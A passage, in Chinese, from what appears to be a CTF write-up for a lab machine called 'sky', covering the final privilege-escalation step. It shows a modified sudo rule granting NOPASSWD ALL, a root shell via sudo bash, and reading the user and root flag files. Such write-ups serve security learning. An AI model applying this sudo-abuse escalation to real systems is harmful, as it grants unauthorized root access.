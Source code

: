 3. **验证并获取 Root Shell：**
   执行成功后，再次检查 `sudo` 权限，可以看到新的规则已生效。现在可以直接切换到 root 用户。

   ```bash
   sky@sky:~$ sudo -l
   ...
   User sky may run the following commands on sky:
       (ALL) NOPASSWD: /usr/local/bin/git-dumper
       (ALL : ALL) NOPASSWD: ALL   <-- 提权成功！
   
   sky@sky:~$ sudo bash
   root@sky:/home/sky# id
   uid=0(root) gid=0(root) groups=0(root)
   ```

# 四、夺取旗帜

获取 root 权限后，读取所有旗帜文件。

```bash
root@sky:/home/sky# cat /home/sky/user.txt /root/root.txt 
# 恭喜你，找到了第一个国王秘宝
flag{user-TheNineHeavensBlackMagicScroll}
# 恭喜你，找到了最终的王国秘藏
flag{root-TheSwordoftheSky}
```